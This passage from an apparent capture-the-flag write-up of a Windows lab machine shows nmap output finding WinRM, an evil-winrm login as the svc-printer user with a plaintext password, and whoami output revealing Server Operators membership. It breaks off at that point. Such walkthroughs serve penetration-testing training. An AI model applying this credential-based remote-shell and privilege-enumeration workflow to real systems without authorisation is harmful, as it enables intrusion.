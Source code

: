 ```
Completed NSE at 11:25, 0.15s elapsed
Initiating NSE at 11:25
Completed NSE at 11:25, 0.08s elapsed
Nmap scan report for 10.129.139.66
Host is up (0.019s latency).

PORT     STATE SERVICE VERSION
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_winrm: WinRM service detected
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 11:25
Completed NSE at 11:25, 0.00s elapsed
Initiating NSE at 11:25
Completed NSE at 11:25, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.24 seconds
           Raw packets sent: 1 (44B) | Rcvd: 1 (44B)
```

As expected, WinRM is running and we may be able to create a connection to the machine. 

## Getting initial foothold
With evil-winrm we can set up an interactive shell with the svc-printer user.

```
┌──(eMVee@kali)-[~]
└─$ evil-winrm -i $ip -u svc-printer -p '1edFg43012!!'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> 

```

We managed to connect to the machine with evil-winrm. Now that a connection has been made with the machine, it is time to see what information can be used.
First I want to know which user I am on the machine and what permissions it has.

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami /all

USER INFORMATION
----------------

User Name          SID
================== =============================================
return\svc-printer S-1-5-21-3750359090-2939318659-876128439-1103


GROUP INFORMATION
-----------------2

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
```